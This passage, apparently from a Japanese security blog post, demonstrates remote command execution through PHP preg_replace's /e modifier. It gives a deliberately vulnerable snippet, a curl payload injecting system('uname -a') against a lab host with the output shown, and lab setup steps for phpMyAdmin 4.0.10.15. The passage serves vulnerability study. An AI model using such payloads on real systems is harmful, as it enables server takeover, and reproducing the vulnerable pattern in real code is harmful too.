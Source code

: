 正規表現の完全なパターン渡して任意のコマンドの実行を起こすことが可能なのがわかりました。
次に一部だけ正規表現が定義されている場合をみてみましょう。

 * デリミタを@で設定し、前半のデリミタだけを指定する

```php
<?php
preg_replace('@' . $_GET['input1'], $_GET['input2'], '')
?>
```

 * 後半のデリミタとeオプションを設定して、任意のコマンドの実行を行う

```bash
$ curl -X GET "http://vlun.test/test.php?input1=.*@e&input2=system('uname+-a');"
Linux vlun.test 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt25-2+deb8u3 (2016-07-02)
x86_64 GNU/Linux
```

### 検証環境構築

phpMyAdminの4.0.10.15を検証対象として、検証環境を構築します。
apacheとphpとmysqlを事前に導入しておき、以下のオペレーションでphpMyAdminをApacheからアクセスできるように設定します。

```bash
$ wget https://files.phpmyadmin.net/phpMyAdmin/4.0.10.15/phpMyAdmin-4.0.10.15-all-languages.tar.gz
$ tar zxvf phpMyAdmin-4.0.10.15-all-languages.tar.gz
$ sudo mkdir /var/phpmyadmin
$ sudo cp -r phpMyAdmin-4.0.10.15-all-languages/* /var/phpmyadmin
$ mkdir /var/phpmyadmin/config
$ cp /var/phpmyadmin/config.sample.inc.php /var/phpmyadmin/config.php
$ sudo chown -R www-data:www-data /var/phpmyadmin
$ sudo cat > /etc/apache2/sites-available/phpmyadmin.conf
<VirtualHost *:80>
   ServerAdmin admin@vlun.test
   ServerName vlun.test
   DocumentRoot /var/phpmyadmin/

   <Directory "/var/phpmyadmin/">
      Options ExecCGI FollowSymlinks
      AllowOverride All
      Require all granted
   </Directory>

   ErrorLog /var/log/apache2/error-vlun.test.log
   LogLevel warn

   CustomLog /var/log/apache2/access-vlun.test.log combined
   ServerSignature On
</VirtualHost>
$ sudo service apache2 reload
```

phpMyAdminが稼働したら、http://vhost/setupにアクセスして、MySQLサーバの設定を行います。

![phpmyadmin_setup]({{site.baseurl}}/images/2016/07/13/phpmyadmin_setup.png)
